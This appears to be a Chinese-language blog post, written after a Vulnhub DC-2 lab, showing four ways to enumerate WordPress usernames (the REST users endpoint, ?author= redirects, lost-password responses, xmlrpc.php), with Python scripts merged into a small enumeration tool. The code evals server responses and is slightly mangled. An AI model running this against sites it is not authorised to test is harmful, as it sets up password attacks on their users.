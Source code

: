 ```yaml
---
layout:     post
title:      总结wordpress枚举用户名的四种方式
subtitle:   如何枚举wordpress用户名？
date:       2019-06-29
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - 漏洞
    - WordPress
---
```

# 前言
前几天在做Vulnhub DC-2 靶机的时候，80端口上的Web应用程序是WordPress，当时想用WPScan来枚举用户的，但是Kali Linux 和Parrot OS 上的WPScan都用不了了。于是，我上了google去搜了一些关于WordPress枚举用户的文章，顺便记录一下，以后实战中遇到WordPress的站可以多一些尝试！
# 方式
## 方式一：利用接口
通过这个接口，可以获取到部分的用户名
```
/index.php/wp-json/wp/v2/users/?per_page=100&page=1
```
如下图所示，找到了2个用户名，虽然不全，但是也是一个可以利用的点：
![图片](../../../../img/wp-user-1.png)

下面通过Python脚本来自动实现：
```
import requests

users_list = []
headers = {'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36'}

response = requests.get(target + "/index.php/wp-json/wp/v2/users/?per_page=100&page=1",headers=headers)
r_text = eval(response.text)
for i in range(0,10):
    users_list.append(r_text[i]['name'])
```

## 方式二：利用遍历author参数
如果存在author为1的，就会重定向到作者页面
```
/?author=1
```
如下图所示，可以看到页面的标题变成了admin，因此可以通过脚本来做到枚举用户名：
![图片](../../../../img/wp-user-2.png)
python代码如下：
```
import requests
from bs4 import BeautifulSoup
users_list = []

for i in range(1,10):
    r = requests.get(target+"/?author=%s" % i)
    if r.status_code == 200:
        con = r.content
        soup = BeautifulSoup(con, "html.parser")
        title = soup.head.title.string
        title = title.strip()
        title = title.split("–")
        title = title[0].strip()
        if title not in users_list:
            users_list.append(title)
```
## print(users_list)

方式三：后台忘记密码功能
由于后台密码忘记功能那里，会让你输入用户名，如果存在就302重定向到下一个页面，如果不存在状态码是200。因此写了一个python脚本：
```
import requests
users_list = []

post_headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36',
           'Content-Type':'application/x-www-form-urlencoded'}
usernames = open("users_list.txt","r",encoding='utf-8',errors='ignore')
for user in usernames:
    user = user.strip()
    data = "user_login=%s&redirect_to=&wp-submit=Get+New+Password" % user
    forget_r = requests.post(target + "/wp-login.php?action=lostpassword",headers=post_headers,data=data,allow_redirects=False)
    if forget_r.status_code == 302:
        if user not in users_list:
            users_list.append(user)
print(users_list)
usernames.close()
```

## 方式四：通过xmlrpc.php
这个方法，我这本地测试没成功，国外有一篇文章写的很详细，可以看一下：[https://medium.com/@the.bilal.rizwan/wordpress-xmlrpc-php-common-vulnerabilites-how-to-exploit-them-d8d3c8600b32](https://medium.com/@the.bilal.rizwan/wordpress-xmlrpc-php-common-vulnerabilites-how-to-exploit-them-d8d3c8600b32)

# Python脚本自动化
### 代码
这里就把上述的三种方式整合一下，打造一个用来枚举WordPress用户名的小工具。
```
#!/usr/bin/python
# -*- coding:utf-8 -*-
# wirter:En_dust
# Blog:https://www.opensource-sec.com/
import requests
from bs4 import BeautifulSoup
users_list = []
headers = {'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36'}

def enumerat_user(target):
    try:
        response = requests.get(target + "/index.php/wp-json/wp/v2/users/?per_page=100&page=1",headers=headers)
        r_text = eval(response.text)
        for i in range(0,10):
            users_list.append(r_text[i]['name'])
    except:
        pass
    finally:
        print(users_list)

    for i in range(1,10):
        r = requests.get(target+"/?author=%s" % i)
        if r.status_code == 200:
            con = r.content
            soup = BeautifulSoup(con, "html.parser")
            title = soup.head.title.string
            title = title.strip()
            title = title.split("–")
            title = title[0].strip()
            if title not in users_list:
                users_list.append(title)
    print(users_list)

    post_headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36',
               'Content-Type':'application/x-www-form-urlencoded'}
    usernames = open("users_list.txt","r",encoding='utf-8',errors='ignore')
    for user in usernames:
        user = user.strip()
        data = "user_login=%s&redirect_to=&wp-submit=Get+New+Password" % user
        forget_r = requests.post(target + "/wp-login.php?action=lostpassword",headers=post_headers,data=data,allow_redirects=False)
        if forget_r.status_code == 302:
            if user not in users_list:
                users_list.append(user)
    print(users_list)
    usernames.close()


def main():
    print("WordPress枚举用户名工具")
    website = input("输入一个由WordPress搭建的网站：")
    enumerat_user(website)


if __name__ == '__main__':
```
    main()


